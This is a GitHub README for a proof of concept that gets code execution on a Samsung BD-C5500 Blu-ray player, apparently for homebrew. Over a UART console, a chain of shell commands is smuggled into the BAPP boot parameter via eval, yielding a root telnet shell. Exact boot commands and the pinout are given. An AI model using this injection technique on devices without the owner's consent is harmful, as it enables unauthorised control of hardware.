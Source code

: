 # TX-PWN
BD-C5500 Bootloader vulnerability POC

The Samsung Blu-Ray player BD-C5500 contains a vulnerability in its bootloader (present in the latest available firmware) that allows arbitrary code execution through the UART interface by issuing a carefully crafted boot command.
This method REQUIRES an ext3 USB, an ethernet cable and UART access

# How it works

The BD-C5500's Linux system executes a script called rcS located in /etc/init.d/ during boot. 
This script interprets several boot parameters that can influence the system's behavior.
Here is an excerpt from the original rcS script:
<pre>
#########################################################################


####vvvv####vvvv#################################################
# BRCM VARIABLES THAT CAN BE SET ON BOOT PARAM LINE
####vvvv####vvvv#########################################vvvv####
#
# BDVD_BOOT_AUTOSTART 
#    This is more of a "mode" than a variable setting. When 
#    set to 'y', it directs this script to go into "production"
#    mode settings.  See the actual code below for what the
#    actual settings are.  Note that this "mode" will not 
#    set any variable that already has a non-null value.
#
# BQ
#    BQ is an acronym for 'Broadcom Quiet'.  When set to 'y'
#    it squelches most of the console output from this script.
#    Note that if you want the Linux kernel to be quiet, you 
#    should specify  'quiet' on the boot line.  
#
# BNET 
#    If this is set to a 'y', the network will be brought up.
#
# BNET_DLY
#    Delays the network bringup by ${BNET_DLY} seconds. If
#    not set, there is no delay.
#
# BAPP  
#    Specifies a program to run at the end of this script.
#    If BAPP is null, no program is started.
#
# BAPP_OUT 
#    Specifies a file to store the Application output, both
#    stdout and stderr.  By default, ${BAPP} output will be 
#    redirected to /tmp/app.out.
#
# OFE_SB
#    If this is not set to 'n', the 7620 Sideband Protocol
#    application "app_ofe_sb" will be started in the
#    background.
#
# Size of /var tmpfs file system, in kbytes.
# BTMPFS_SIZE=384  - original
BTMPFS_SIZE=640
#
# Size allocated for syslogd log, in kbyptes.  Must be a good
# deal less than BTMPFS_SIZE.
BDEVLOG_SIZE=64
####^^^^####^^^^####
</pre>
The vulnerable parameter is BAPP, which is designed to execute a single program after boot. However, this can be abused using eval to execute a chain of commands instead.
By injecting a carefully constructed payload, you can mount a USB device and execute a script from it, effectively enabling arbitrary code execution post-boot.

# How to run it
1. Connect to the UART interface
2. Press Ctrl+C during boot to enter the CFE console.
3. Insert your EXT3-formatted USB drive with stage2.sh inside and connect an Ethernet cable.
4. Set your ethernet interface to a static ip with the following ip: 192.168.1.100 
5. Run the following command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval sleep 10; mount -o rw /dev/sda1 /var; cd /var; sh ./stage2.sh" memcfg=384 rw'</pre>
6. On your computer in another terminal, run <pre>telnet 192.168.1.108</pre>
If mounting /dev/sda1 fails, try using /dev/sda instead.

Once you’ve run the exploit once, stage2.sh will be copied to /mtd_down/homebrew on the BD-C5500's filesystem.
For future reboots, you can launch it directly with a simpler and faster command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval  cd /mtd_down/homebrew; sh ./stage2.sh" memcfg=384 rw'</pre>

To gain telnet while running the main Blu-ray application, append this to the end of either command:
<pre>cd /usr/local/bin/; ./app_player</pre>
Be sure that you added a ; to the command before it

# UART Pinout

The UART interface is located at CN7 on the BD-C5500 board.

* Pin 1 – TX

* Pin 2 – RX

* Pin 14 – GND

Baud rate: 115200 8N1

# Notes
The USB must be EXT3 if you want write access on it. This is especially useful for backing up your NAND with the following command : <pre>for n in `seq 0 21`; do nanddump -f mtd$n.dump /dev/mtd$n; done </pre>

The telnet username is root with no password.
# Credits

Thanks to the following forum thread, without which this Proof-Of-Concept would not have been possible:  
[https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f](https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f)


